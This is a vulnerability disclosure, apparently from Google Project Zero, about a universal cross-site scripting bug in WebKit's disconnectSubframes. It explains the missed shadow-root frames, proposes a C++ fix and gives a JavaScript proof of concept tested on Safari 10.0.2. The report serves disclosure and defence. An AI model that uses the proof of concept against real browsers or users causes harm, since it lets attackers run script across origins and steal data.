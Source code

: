 # UXSS via disconnectSubframes

### Reported by <mailto:lokihardt@google.com>, Jan 9 2017

When an element is removed from a document, the function `disconnectSubframes` is called to detach its subframes(iframe tag, object tag, etc.).

Here is a snippet of `disconnectSubframes`.

```cpp
void disconnectSubframes(ContainerNode& root, SubframeDisconnectPolicy policy)
{
...
Vector<Ref<HTMLFrameOwnerElement>> frameOwners;

    if (policy == RootAndDescendants) {
        if (is<HTMLFrameOwnerElement>(root))
            frameOwners.append(downcast<HTMLFrameOwnerElement>(root));
    }

    collectFrameOwners(frameOwners, root);

    // Must disable frame loading in the subtree so an unload handler cannot
    // insert more frames and create loaded frames in detached subtrees.
    SubframeLoadingDisabler disabler(root);

    bool isFirst = true;
    for (auto& owner : frameOwners) {
        // Don't need to traverse up the tree for the first owner since no
        // script could have moved it.
        if (isFirst || root.containsIncludingShadowDOM(&owner.get()))
            owner.get().disconnectContentFrame();
        isFirst = false;
    }

}
```

The bug is that it doesn't consider `root`'s shadowroot. So any subframes in the shadowroot will be never detached.

It should be like:

```cpp
    ...
    collectFrameOwners(frameOwners, root);

    if (is<Element>(root)) {
        Element& element = downcast<Element>(root);
        if (ShadowRoot* shadowRoot = element.shadowRoot())
            collectFrameOwners(frameOwners, *shadowRoot);
    }
    ...
```

PoC:

```js
var d = document.body.appendChild(document.createElement('div'))
var s = d.attachShadow({mode: 'open'})

var f = s.appendChild(document.createElement('iframe'))

f.onload = () => {
	f.onload = null

	f.src = 'javascript:alert(location)'

	var xml =
		`

<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.d);

</sc` +
		`ript>
<element a="1" a="2" />
</svg>`

	var v = document.body.appendChild(document.createElement('iframe'))
	v.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}))
}

f.src = 'https://abc.xyz/'
```

Tested on Safari 10.0.2(12602.3.12.0.1)
Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1074
